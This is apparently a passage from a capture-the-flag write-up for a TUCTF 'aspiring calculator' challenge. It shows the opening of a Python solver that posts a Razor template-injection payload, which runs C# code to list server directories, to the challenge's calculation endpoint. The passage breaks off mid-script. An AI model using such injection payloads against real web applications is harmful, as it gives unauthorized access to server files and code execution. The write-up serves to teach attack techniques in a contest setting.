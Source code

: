   result: ![Base64_ReadAllText](img/Base64_ReadAllText.png)

### Exploit Script

I executed Python script to send payloads similar to the above, and the results are as follows:

```python
# solver.py
import base64
from html import unescape
import requests
import re
from pwn import args
from pprint import pprint

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False


def main():
    BASE_URL = "https://aspiring-calculator.tuctf.com"

    if directory := args.DIR:
        payload = f'13371337)@using System.IO@{{var output=string.Join("SEPARATE",Directory.GetFileSystemEntries("{directory}"));}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()
```